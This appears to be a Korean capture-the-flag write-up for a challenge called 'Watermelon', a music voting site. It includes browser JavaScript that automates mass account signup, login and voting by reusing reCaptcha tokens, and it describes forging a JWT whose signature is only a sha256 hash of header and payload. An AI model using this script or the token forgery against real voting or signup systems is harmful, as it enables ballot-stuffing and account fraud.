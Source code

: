 # Watermelon
> ## Overview  
음악을 업로드하는 기능과 투표를 할 수 있는 기능이 있다.  
투표는 계정당 한 번만 가능하다. 회원가입과 로그인에는 캡챠가 작동하고 있다.  
JWT기반 인증을 사용하고 있다.  
> ## Solve
회원가입하여 로그인하여 JWT 토큰을 디코딩하여 아래의 값을 얻었다.

```  
{"alg":"sha256","typ":"JWT"}.{"user_no":7374,"id":"workerholic","nickname":"workerholic","iat":1577621349}.32f6c091cf3e50ce7ac64fd042ef309e438a58454e30e61bf8ee7dd1dbd24390
```
이를통해 user_no를 조작하여 투표를 계속할 수 있게 해볼려고 시도해봤으나 jwt의 signature 부분이 계속 틀려서 포기했다.  
다음 생각한 방법은 회원가입하고 로그인하고 투표하는 동작을 자동으로 할 수 있게 프로그램을 만들어서 투표 수를 높이는거였다.  
그런데 회원가입과 로그인 기능에는 reCaptcha가 작동하고 있었다. 
```
<script src="https://www.google.com/recaptcha/api.js?render=6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z"></script>
<script>
grecaptcha.ready(function() {
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z', {action: 'homepage'}).then(function(token) {
        document.getElementById('g-recaptcha-response').value = token;
    });
});
</script>
```  
스크립트를 통해 받아온 token 값을 g-recaptcha-response에 담아 POST로 같이 전송하는 방식이다.  
이 token값은 요청마다 바뀌었다.  
브라우저에서 자바스크립트를 실행해서 값을 받아오기 때문에
python 코드 상에서 해당 token 값을 받아 올 수는 없었다.   
파이선으로 해당 코드를 대체하여 token 값을 받아올 방법을 못 찾고  
그냥 해당 api가 불러와진 회원가입 페이지에서 개발자 도구를 통해 자바스크립트로 코드를 작성하여 실행시켯다.  
```
function register(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&nickname="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signup.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(register(count+1));
    });
}

function login(count){
    grecaptcha.execute('6LeKDskUAAAAAAh1LrqJ8isTG7rzGFpgNGas4x7z',{action: 'homepage'}).then(function(token) {
        var id = 'worker'+count
        var param = "id="+id+"&password="+id+"&g-recaptcha-response="+token;
        fetch("http://ch4n3.me:8080/xmas/?p=signin.ok",{
            method : 'POST',
            headers: {'Content-Type':'application/x-www-form-urlencoded'},
            body : param
        }).then(login(count+1)).then(vote());
    });
}

function vote(){
    var xhttp = new XMLHttpRequest();
    var music_no = 555;
    var param = "music_no="+music_no;
    xhttp.open("POST", "http://ch4n3.me:8080/xmas/vote.php");
    xhttp.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhttp.send(param);
    var work = xhttp.responseText;
    console.log(work);
}
```
처음에 register()와 login()에서 fetch()말고 xhttp.send()로 요청을 계속 보내니 중간에 잘보내다가 요청이 pending 상태에 걸려서 에러가 발생했다. 너무 화가났다. 쨋든 이렇게 동작하게 코드를 만들어서
```
register(1122);
login(1122);
vote();
```
동작시키면 아이디를 만들고 그 아이디로 로그인해서 투표하는걸 반복하게된다. 그래서 투표 수를 계속 높여나가다 투표받은 음악을 올린 계정으로 로그인하니 플래그가 뙇~ 멍청하게 자알~ 풀었다.  
> ## Real Solve
해당 페이지의 robots.txt에 코드가 올라와있는 github 주소가 있었다.
jwt 토큰을 생성하는 페이지를 보니 header 부분과 payload 부분을 sha256으로 해쉬한게 signature였다......  
그리하여 user_no를 변경하고 이를 알맞게 해쉬하여 signature를 붙여서 인코딩해주면 jwt가 정상적으로 인식되어 투표할 수 있었다.  투표는 1226표 이상 받으면 flag가 출력되게 되어있었다.
